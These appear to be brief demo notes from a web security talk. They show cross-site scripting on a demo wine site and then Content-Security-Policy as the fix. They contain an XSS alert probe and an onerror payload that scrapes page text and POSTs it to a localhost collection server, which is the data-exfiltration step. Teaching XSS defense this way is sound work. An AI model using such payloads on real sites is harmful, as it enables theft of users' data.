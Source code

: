 1. Demo site
2. Explain external sources
3. First vulnerability: inject `<img src="/" onerror="alert(1);">`
4. Second vulnerability: `<img src="/" onerror="Array(...document.querySelectorAll('.wines-container div')).map(n => {return {data: n.innerText}}).forEach(text => {fetch('http://localhost:3000/data', {method: 'POST', mode: 'cors', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(text)})});">`
5. Enter CSP https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
6. <meta http-equiv="Content-Security-Policy" content="default-src 'none';">